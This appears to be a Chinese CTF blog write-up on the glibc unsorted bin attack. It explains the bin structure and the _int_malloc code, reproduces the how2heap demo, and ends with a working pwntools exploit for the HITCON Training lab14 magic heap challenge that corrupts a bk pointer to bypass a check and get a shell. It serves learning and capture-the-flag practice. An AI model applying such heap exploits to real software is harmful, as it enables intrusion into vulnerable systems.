 ```yaml
---
title: Unsorted Bin Attack
date: 2022-03-29 14:46:05
tags:
    - pwn
    - 堆
---
```


<!--more-->

# 来源

当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。

1. 释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。关于 top chunk 的解释，请参考下面的介绍。
2. 当进行 malloc_consolidate 时，可能会把合并后的 chunk 放到 unsorted bin 中，如果不是和 top chunk 近邻的话。

# 基本使用情况 

1. Unsorted Bin 在使用的过程中，采用的遍历顺序是 FIFO，**即插入的时候插入到 unsorted bin 的头部，取出的时候从链表尾获取**。
2. 在程序 malloc 时，如果在 fastbin，small bin 中找不到对应大小的 chunk，就会尝试从 Unsorted Bin 中寻找  chunk。如果取出来的 chunk 大小刚好满足，就会直接返回给用户，否则就会把这些 chunk 分别插入到对应的 bin 中。

# Unsorted Bin 的结构 

`Unsorted Bin` 在管理时为循环双向链表，若 `Unsorted Bin` 中有两个 `bin`，那么该链表结构如下

![image-20220329162834973](https://s2.loli.net/2022/03/29/ypkTGaYnVLb2AX5.png)

下面这张图就是上面的结构的复现

![image-20220329163244394](C:\Users\22761\AppData\Roaming\Typora\typora-user-images\image-20220329163244394.png)

我们可以看到，在该链表中必有一个节点的 `fd` 指针会指向 `main_arena` 结构体内部。

## 原理：

`_int_malloc` 有这么一段代码，当将一个 unsorted bin 取出的时候，会将 `bck->fd` 的位置写入本 Unsorted Bin 的位置。

```
          /* remove from unsorted list */
          if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): corrupted unsorted chunks 3");
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

如果我们控制了 bk 的值，我们就能将 `unsorted_chunks (av)` 写到任意地址。

这里以how2heap 仓库中的 [unsorted_bin_attack.c](https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c) 为例进行介绍

```
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
  fprintf(stderr, "This technique only works with buffers not going into tcache, either because the tcache-option for "
        "glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build "
        "instructions.\n");
  fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
  fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
       "global variable global_max_fast in libc for further fastbin attack\n\n");

  volatile unsigned long stack_var=0;
  fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
  fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);//注意第一次输出stack_var的地址

  unsigned long *p=malloc(0x410);
  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
  fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
       "point to %p\n",(void*)p[1]);

  //------------VULNERABILITY-----------

  p[1]=(unsigned long)(&stack_var-2);//修改了p的bk，p->bk=&stack_var-0x10
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

  //------------------------------------

  malloc(0x410);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
       "rewritten:\n");
  fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);//注意第二次输出stack_var的地址
  assert(stack_var != 0);
}

```

第一次输出stack_var的地址

![image-20220329161703139](https://s2.loli.net/2022/03/29/ek2RJw5VZEcDiMr.png)

第二次输出stack_var的地址

![image-20220329161536843](https://s2.loli.net/2022/03/29/AjLsNgbCPDZvGJ2.png)

![image-20220329162508770](https://s2.loli.net/2022/03/29/diqNzh8PgKAJQvC.png)

可以使用一个图来描述一下具体发生的流程以及背后的原理。

![image-20220329162157742](https://s2.loli.net/2022/03/29/FIuNPDn7UcvGOkA.png)

**初始状态时**

unsorted bin 的 fd 和 bk 均指向 unsorted bin 本身。

**执行 free(p)**

由于释放的 chunk 大小不属于 fast bin 范围内，所以会首先放入到 unsorted bin 中。

**修改 p[1]**

经过修改之后，原来在 unsorted bin 中的 p 的 bk 指针就会指向 stack addr-16 处伪造的 chunk，即 Stack Value 处于伪造 chunk 的 fd 处。

**申请 400 大小的 chunk**

此时，所申请的 chunk 处于 small bin 所在的范围，其对应的 bin 中暂时没有 chunk，所以会去 unsorted bin 中找，发现 unsorted bin 不空，于是把 unsorted bin 中的最后一个 chunk 拿出来。



这里我们可以看到 unsorted bin attack 确实可以修改任意地址的值，但是所修改成的值却不受我们控制，唯一可以知道的是，这个值比较大。**而且，需要注意的是，**

这看起来似乎并没有什么用处，但是其实还是有点卵用的，比如说

- 我们通过修改循环的次数来使得程序可以执行多次循环。
- 我们可以修改 heap 中的 global_max_fast 来使得更大的 chunk 可以被视为 fast bin，这样我们就可以去执行一些 fast bin attack 了。

## 例题-HITCON Training lab14 magic heap

未开pie

![image-20220329170452592](https://s2.loli.net/2022/03/29/KrS64jopgIFTvuD.png)

主函数

![image-20220329170425632](https://s2.loli.net/2022/03/29/fTLjV6vHnXDSZu7.png)

发现有个判断，只要绕过这个判断就可以拿到shell了，主函数是个菜单，堆题。

### 思路

因为本题用unsorted bin attack，所以我们创造几个堆，释放堆到unsorted bin,然后覆盖其中一个堆，利用堆溢出漏洞修改 unsorted bin 中对应堆块的 bk 指针为 &magic-0x10。，unsorted bin attack刚好能使bk的值变得很大绕过判断拿到shell

### EXP:

```
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'
r = process('./magicheap')


def create_heap(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(": ")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit_heap(idx, size, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(": ")
    r.sendline(str(size))
    r.recvuntil(": ")
    r.sendline(content)


def del_heap(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
create_heap(0x20, "dada")  # 0
create_heap(0x80, "dada")  # 1
create_heap(0x20, "dada")  # 2
del_heap(1)
magic_addr=0x006020C0
fd = 0
bk = magic_addr- 0x10
edit_heap(0,0x20+0x20,'a'*0x20+p64(0)+p64(0x91)+p64(fd)+p64(bk))#通过0堆块覆盖1堆块，先用20个‘a’覆盖0堆块，再构造1堆块的内容，使其bk指向magic-0x10
create_heap(0x80,'aaaa')
r.recvuntil(":")
r.sendline("4869")
gdb.attach(r)
r.interactive()
```

